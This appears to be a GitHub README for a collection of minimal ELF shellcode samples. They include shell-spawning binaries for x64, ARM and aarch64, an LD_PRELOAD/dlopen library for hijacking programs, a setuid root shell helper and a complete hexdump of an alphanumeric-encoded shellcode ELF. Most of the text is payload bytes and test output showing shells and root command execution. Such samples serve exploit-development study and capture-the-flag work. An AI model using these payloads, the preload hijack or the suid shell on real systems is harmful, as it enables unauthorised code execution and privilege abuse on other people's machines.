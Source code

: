 # Tiny ELF sample

## pop_shell_x64

- arch: x64
- shellcode pos: 0x78
- size: 180 bytes

just pop a shell.

test:

```
./pop_shell_x64
$ whoami
veritas
$
```



## pop_shell_preload_x64.so

- arch: x64
- shellcode pos: 0x170
- size: 428 bytes

just pop a shell, but can be used to hijack program using LD_PRELOAD or dlopen.

test:

```
./pop_shell_preload_x64.so
$ whoami
veritas
$

LD_PRELOAD=./pop_shell_preload_x64.so /usr/bin/true
$ whoami
veritas
$
```



## pop_shell_alnum_x64

- arch: x64
- size: 323 bytes

just pop a shell, but shellcode is alphanumeric encoded by [AE64](https://github.com/veritas501/ae64).

```
$ hexdump -C pop_shell_alnum_x64
00000000  7f 45 4c 46 02 01 01 00  00 00 00 00 00 00 00 00  |.ELF............|
00000010  03 00 3e 00 01 00 00 00  28 00 00 00 00 00 00 00  |..>.....(.......|
00000020  40 00 00 00 00 00 00 00  e8 00 00 00 00 58 eb 48  |@............X.H|
00000030  00 00 00 00 40 00 38 00  01 00 40 00 00 00 01 00  |....@.8...@.....|
00000040  01 00 00 00 07 00 00 00  00 00 00 00 00 00 00 00  |................|
00000050  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000060  78 00 00 00 00 00 00 00  78 00 00 00 00 00 00 00  |x.......x.......|
00000070  00 10 00 00 00 00 00 00  57 54 59 48 33 39 59 6a  |........WTYH39Yj|
00000080  6f 54 59 66 69 39 70 59  57 5a 6a 4a 54 59 66 69  |oTYfi9pYWZjJTYfi|
00000090  39 70 30 30 74 38 30 30  54 38 55 30 54 38 56 6a  |9p00t800T8U0T8Vj|
000000a0  42 54 59 66 69 39 38 59  30 74 38 30 30 54 38 4b  |BTYfi98Y0t800T8K|
000000b0  48 63 31 6a 4b 54 59 66  69 31 56 55 4c 4a 74 30  |Hc1jKTYfi1VULJt0|
000000c0  59 6a 32 54 59 66 69 31  67 66 56 59 49 4a 34 4e  |Yj2TYfi1gfVYIJ4N|
000000d0  56 54 58 41 6b 76 32 31  42 32 74 31 31 41 30 76  |VTXAkv21B2t11A0v|
000000e0  31 49 6f 56 4c 39 30 75  7a 51 79 52 5a 45 45 6e  |1IoVL90uzQyRZEEn|
000000f0  64 65 65 35 64 46 52 4a  4f 41 4f 64 75 41 35 54  |dee5dFRJOAOduA5T|
00000100  59 6f 6b 54 52 63 31 30  73 69 6e 71 4a 4b 30 31  |YokTRc10sinqJK01|
00000110  41 41 4a 4c 56 36 56 31  45 73 6d 65 69 6c 62 30  |AAJLV6V1Esmeilb0|
00000120  37 6f 46 6a 73 5a 6b 66  4e 6f 35 7a 50 41 31 5a  |7oFjsZkfNo5zPA1Z|
00000130  30 6c 6a 48 69 4c 47 48  6e 34 4c 48 63 65 62 32  |0ljHiLGHn4LHceb2|
00000140  54 66 4c                                          |TfL|
00000143
```



test:

```
./pop_shell_alnum_x64
$ whoami
veritas
$
```

## pop_shell_arm

- arch: arm
- shellcode pos: 0x54
- size: 160 bytes

just pop a shell.

test:

```
qemu-arm ./pop_shell_arm
$ whoami
veritas
$
```

## pop_shell_aarch64

- arch: aarch64
- shellcode pos: 0x78
- size: 196 bytes

just pop a shell.

test:

```
qemu-aarch64 ./pop_shell_aarch64
$ whoami
veritas
$
```

## suid_shell_in_c

- arch: x64

shellcode written in C

build:
```
make clean && CC=clang make
```

usage:
```
$ ./suid_shell
#

$ ./suid_shell "whoami && id"
root
uid=0(root) gid=0(root) groups=0(root),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),108(kvm),117(netdev),120(docker),1000(veritas)
```